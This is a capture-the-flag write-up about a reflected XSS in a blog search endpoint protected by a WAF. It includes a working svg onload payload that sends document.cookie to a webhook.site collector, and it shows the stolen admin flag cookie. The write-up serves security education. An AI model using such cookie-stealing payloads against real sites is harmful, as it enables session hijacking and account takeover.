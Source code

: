 # Challenge `Give me more than a simple WAF` writeup

- Vulnerability:
  - _Endpoint has a **Cross Site Scripting (XSS)** vulnerability_
- Where:
  - _`/?search=` (in the feedback) endpoint_
- Impact:
  - _Allows to **obtain the admin's cookies** by injecting malicious code in the webpage_

## Steps to reproduce

First we connected to the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22252`. We can see that the server has a search bar for blog posts. If we search for something, we can see that the search is reflected in the page, like this `/?search=`. This means that the server is probably vulnerable to **XSS**.

In this challenge we need to obtain the admin's cookie, so we need to find a way to inject code in the page that will lure the admin to perform a request to the site where we are collecting the cookies.
Since we did not have any site of our own we used a online service to collect our https requests [Webhook](https://webhook.site/). 

We noticed that there was a place where we could insert a link to report a bug or request a feature. This lead to us thinking the admin might click it to review the reports/requests. 

However this time, the code can´t be injected in the exact same way, because the server is using a **WAF** to prevent it.

With this thought in mind we sent the following payload after the `/?search=` in the feedback link:

```javascript
<svg/onload=window.open("https://webhook.site/a0e83e7e-be55-4740-8180-f38200e300ea?c="%2Bdocument.cookie)>
```
Note: The `%2B` is the url encoded version of `+`.

As soon as the admin **'clicked the link',** we received the following cookie in the http request:
```SECRET=SSof{But_I_was_told_that_this_WAF_was_all_I_needed...}```

Now, we were able to store the request in a website we control and therefore have possession of the admin's cookie obtaining the **flag**.
